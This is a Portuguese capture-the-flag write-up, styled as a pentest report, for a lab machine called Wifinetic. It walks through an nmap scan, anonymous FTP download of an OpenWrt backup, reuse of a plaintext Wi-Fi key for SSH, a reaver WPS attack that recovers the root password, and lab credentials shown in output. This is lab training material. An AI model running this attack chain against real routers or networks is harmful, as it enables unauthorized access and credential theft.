









# Wifinetic

## Riconzeraa

## Controle de Versões

| DATA | VERSÃO | ALTERAÇÕES     |
| ---- | ------ | -------------- |
| 18-09|   1.0  | Versão inicial |
| 21-09|   1.0  | Finalizando a versão 1.0 |

_________

> ## Termos de confidencialidade
>
> Este documento contém informações sobre como resolver o desafio Wifinetic. A Duplicação, redistribuição ou uso no todo ou em parte desse repositório e das lives é super RECOMENDADA, vamos ajudar a comunidade a crescer, só não esqueça de marcar o Rincon (@rinconzeraa) e o Proton (@proton.negativo), esse material só existe graça ao esforço deles e a colaboração de todos da comunidade.

_________

> ## Aviso Legal
>
> O Pentest foi realizado durante o período de 18/09/2023 até 19/09/2023, com uma atualização do presente relatório no dia 21/09/2023.
>

_________

## Introdução

Essa seção dividimos em duas etapas, Análise resumida e Análise técnica. Na primeira parte, iremos descrever os resultados do pentest sem se aprofundar na parte técnicas, já na segunda parte iremos nos aprofundar na parte técnica.

## Análise resumida

Como referência usei a [Calculadora do CVSS](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L&version=3.1).

| Descrição da Vulnerabilidade| Possíveis problemas | Risco de exploração | Complexidade do ataque | Severidade da Vulnerabilidade |
|-----------------------------|---------------------|---------------------|------------------------|-------------------------------|
| Vulnerabilidade 1: Arquivo de backup exposto| O arquivo de backup backup-OpenWrt-2023-07-26.tar está exposto de forma pública para acesso via ftp anonymous, dessa forma é possível fazer download do mesmo |        Alto         |          Baixo         |             Alto              |
| Vulnerabilidade 2: WPS| É possível recuperar a senha do wifi e dessa forma a integridade da rede fica em risco  |        Médio         |          Baixo         |             Médio              |

<figcaption>
Legenda: Risco de exploração: é referente a probabilidade de alguém tentar explorar a vunerabilidade em questão.
Complexidade do ataque: avalia o quão complexo é realizar um ataque bem-sucedido. Quanto maior a complexidade, menor a probabilidade de um ataque bem-sucedido.
Severidade da Vulnerabilidade: representa a gravidade geral da vulnerabilidade: info, baixo, médio, alto ou extremamente crítico.
</figcaption>

_________

### Escopo

Nesse desafio, iremos explorar uma máquina que tem o fpt configurado para acesso Anonymous. Dessa forma, será possível ter acesso ao arquivo de backup. Iremos explorar esse arquivo para achar algum usuário para fazer a conexão via ssh e depois será necessário fazer escalação de privilégio.

### Metodologia

Para a realização desses trabalhos, criamos uma própria metodologia, combinada com padrões já estabelecidos e amplamente reconhecidos. Essas etapas foram executadas de acordo com as seguintes fases:

1. Planejamento e reconhecimento.
2. Escaneamento de vulnerabilidades.
3. Exploração das vulnerabilidades.
4. Usando as flags para resolver o desafio.

_________

## PLANEJAMENTO E RECONHECIMENTO

O planejamento envolve a definição dos objetivos do pentest, incluindo os sistemas, aplicativos e redes a serem testados. É importante entender os requisitos e o escopo do teste. Com base nisso, é elaborado um plano detalhado que define as técnicas, ferramentas e abordagens a serem utilizadas.
O reconhecimento, por sua vez, concentra-se na coleta de informações sobre o ambiente alvo. Isso envolve a pesquisa de informações públicas disponíveis, como registros DNS, informações de WHOIS, descoberta de subdomínios e análise de redes sociais. Além disso, também são realizados testes de varredura de portas e serviços para identificar possíveis pontos de entrada.
Dessa forma, o planejamento e reconhecimento são fundamentais para estabelecer uma base sólida para o teste de penetração. Eles permitem uma compreensão completa do ambiente alvo, ajudando a definir os objetivos e garantindo que o pentest seja realizado de maneira sistemática, eficiente e orientada para os riscos identificados.
Também é interessante colocar todas as informações sobre as versões do software que foram mapeadas e todas as informações encontradas em site de terceiros.

### Ferramentas de Análise

Na live foram utilizadas várias ferramentas de análise durante os testes e explicações. Como esse relatório tem como objetivo mostrar a resolução do desafio não irei por as outras ferramentas que foram utilizadas, novamente recomendo que veja os vídeos.

- Nmap: Para mapeamento de rede e detecção de serviços e portas abertas.
- ssh
- ftp
- curl
- reaver

### Aplicação da Metodologia

A avaliação de segurança seguirá a metodologia descrita anteriormente, incluindo as seguintes etapas:

a) Levantamento de Informações: Coleta de informações sobre o projeto, arquitetura, tecnologias utilizadas, perfis de acesso e escopo definido.

b) Mapeamento de Rede: Utilização do Nmap para identificar os hosts ativos, portas abertas e serviços em execução.

c) Testes de Infraestrutura: Utilização de algumas ferramentas para varredura de vulnerabilidades na infraestrutura de rede e na máquina para identificar falhas de configuração, patches ausentes, etc.

d) Exploração da falha: o uso do reaver para explorar a falha WPS.

e) Análise e Relatório: Análise dos resultados dos testes, documentação das vulnerabilidades encontradas e elaboração de um relatório detalhado com as descobertas.

## Análise técnica

O ip da máquina é: 10.10.11.247.

Após conectar na máquina via openvpn, fizemos o scan das portas usando o nmap, o comando usado foi:

```shell
nmap -sSVC -Pn -v -p- 10.10.11.247
```

com isso descobrimos que as seguintes informações:

```shell
21/tcp open  ftp        vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          4434 Jul 31 11:03 MigrateOpenWrt.txt
| -rw-r--r--    1 ftp      ftp       2501210 Jul 31 11:03 ProjectGreatMigration.pdf
| -rw-r--r--    1 ftp      ftp         60857 Jul 31 11:03 ProjectOpenWRT.pdf
| -rw-r--r--    1 ftp      ftp         40960 Sep 11 15:25 backup-OpenWrt-2023-07-26.tar
|_-rw-r--r--    1 ftp      ftp         52946 Jul 31 11:03 employees_wellness.pdf
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.13
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
53/tcp open  tcpwrapped
```

note que a porta 21 está aberta, o nmap já trouxe todas as informações que tem o logar na porta 21. Mas podemos tentar logar e verificar se realmente é isso mesmo. Então usando o seguinte comando via terminal:

```shell
ftp 10.10.11.247
```

o ftp irá pedir um usuário, podemos passar qualquer usuário para ver o que acontece.



note que não foi possível fazer a conexão, porém o ftp deu uma dica muito importante, ele está falando que só é possível logar como *anonymous*. Então é isso que iremos fazer no próximo passo.



pronto, conectado via ftp, podemo usar o comando ls para ver o que tem nesse diretório.



Então de fato o nmap falou a verdade. Iremos agora baixar o arquivo para a nossa máquina, no caso, vamos direto ao arquivo de backup, pois ele parece ser mais interessante. Existem várias formas de fazer esse download, como estou no linux irei usar o curl para baixar em minha máquina. A sintaxe é a seguinte:

```shell
curl -o exemplo.txt ftp://meuusuario@ftp.example.com/exemplo.txt
```

ou seja,

```shell
curl -o backup-OpenWrt-2023-07-26.tar ftp://anonymous@10.10.11.247/backup-OpenWrt-2023-07-26.tar 
```

agora, o próximo passo é descompactar o arquivo. Note que está em tar, então para o linux:

```shell
tar -xvf backup-OpenWrt-2023-07-26.tar
```

ao fazer isso, será criado um diretório com o nome **etc**. Iremos entrar no diretório.

```shell
cd etc
```

são várias informações que existem nesse diretório, como podemos ver na imagem a seguir:



na live exploramos bastante, também te encorajo para fazer o mesmo aqui.

Pronto, explorou os arquivos e os diretórios? Vamos direto ao ponto então. Vamos ver o que tem no arquivo **group**.

```shell
cat group
```

resultado:

```shell
root:x:0:
daemon:x:1:
adm:x:4:
mail:x:8:
dialout:x:20:
audio:x:29:
www-data:x:33:
ftp:x:55:
users:x:100:
network:x:101:network
nogroup:x:65534:
ntp:x:123:ntp
dnsmasq:x:453:dnsmasq
logd:x:514:logd
ubus:x:81:ubus
netadmin:!:999:
```

Após muitos testes sabemos que nosso usuário é o **netadmin**. No diretório **config** existem várias informações interessantes, entre elas, tem um arquivo com o nome **wireless**. Com as seguintes informações dentro do arquivo:

```shell
config wifi-device 'radio0'
	option type 'mac80211'
	option path 'virtual/mac80211_hwsim/hwsim0'
	option cell_density '0'
	option channel 'auto'
	option band '2g'
	option txpower '20'

config wifi-device 'radio1'
	option type 'mac80211'
	option path 'virtual/mac80211_hwsim/hwsim1'
	option channel '36'
	option band '5g'
	option htmode 'HE80'
	option cell_density '0'

config wifi-iface 'wifinet0'
	option device 'radio0'
	option mode 'ap'
	option ssid 'OpenWrt'
	option encryption 'psk'
	option key 'VeRyUniUqWiFIPasswrd1!'
	option wps_pushbutton '1'

config wifi-iface 'wifinet1'
	option device 'radio1'
	option mode 'sta'
	option network 'wwan'
	option ssid 'OpenWrt'
	option encryption 'psk'
	option key 'VeRyUniUqWiFIPasswrd1!'
```

note que a senha **VeRyUniUqWiFIPasswrd1!** aparece em mais de um lugar. Lembra que o nmap mostrou várias portas abertas? Entre elas a porta 22, iremos agora fazer um login via ssh na porta 22. Usando o usuário **netadmin** e a senha **VeRyUniUqWiFIPasswrd1!**, (demorou muito para perceber isso, veja a live).

```shell
ssh netadmin@10.10.11.247
```



próximo passo é ver o que temos nesse diretório. Para isso use o comando ls.

```shell
ls
```

e achamos nossa primeira flag que é o arquivo user.txt, para ver o conteúdo, use o comando cat.

```shell
cat user.txt
```

O próximo passo é explorar a vulnerabilidade **WPS**, para isso iremos usar um exploit que já tem instalado nessa máquina: **reaver**. Na documentação do [reaver](https://github.com/t6x/reaver-wps-fork-t6x), é mostrado que para explorar essa falha é necessário usar o seguinte comando:

```shell
reaver -i wlan0mon -b 00:90:4C:C1:AC:21
```

em que **-i** é a interface e **-b** é o bssid do alvo, para descobrir isso, iremos usar:

```shell
iwscan list
```



o valor **Address: 02:00:00:00:00:00** é o resultado que queremos. E iremos usar o comando **iwconfig**.

```shell
 iwconfig
```

resultado

```shell
hwsim0    no wireless extensions.

lo        no wireless extensions.

mon0      IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
wlan2     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
eth0      no wireless extensions.

wlan1     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
wlan0     IEEE 802.11  Mode:Master  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

note que o **mon0** está no modo monitoramento.

Então iremos usar nossa interface como **mon0** e o **bssid** como **02:00:00:00:00:00**.

```shell
reaver -i mon0 -b 02:00:00:00:00:00
```

resultado da exploração



note que temos uma senha: **WhatIsRealAnDWhAtIsNot51121!**

então iremos agora tentar escalação de privilégio com essa senha, para isso:

```shell
su root
```



agora iremos no arquivo raiz do root para capturar a última flag.

```shell
cd
```



Por fim, use o cat para ver o conteúdo do arquivo **root.txt**.
